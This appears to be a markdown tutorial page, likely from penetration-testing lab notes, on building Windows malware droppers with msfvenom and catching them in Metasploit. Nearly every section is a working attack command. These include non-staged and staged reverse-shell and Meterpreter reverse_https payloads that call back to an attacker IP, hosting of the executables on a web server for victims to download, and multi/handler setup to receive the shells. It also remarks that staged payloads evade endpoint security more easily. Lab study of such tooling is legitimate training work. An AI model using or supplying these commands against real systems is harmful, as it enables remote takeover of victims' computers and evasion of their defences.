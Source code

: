 # Create Dropper Using Msfconsole

## Build regular executeable non-staged payload using msfvenom
```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=444 -f exe -o /var/www/html/shell.exe
```
![alt text](image-5.png)

## Build regular executeable staged payload using msfvenom
```
sudo msfvenom -p windows/shell/reverse_tcp LHOST=192.168.119.120 LPORT=444 -f exe -o /var/www/html/shell.exe
```

## Comparison between staged and non staged payload
Build the payload
```
sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfnonstaged.exe

sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
```

Result
![alt text](image-6.png)
```
Notice that the non-staged payload is nearly thirty times larger than the staged payload. 

This significantly smaller payload provides less detection surface for endpoint security solutions.
```

## Using staged payload
In order to use staged payloads, we'll need to use the multi/handler. 

This Metasploit module listens for incoming callbacks from staged payloads and delivers the second stage.
```bash
use multi/handler

set payload windows/x64/meterpreter/reverse_https
```
![alt text](image-7.png)

With the multi/handler module running, we can download our msfstaged.exe executable and run it on our victim machine. Then, we'll turn our attention to the output from Metasploit
![alt text](image-8.png)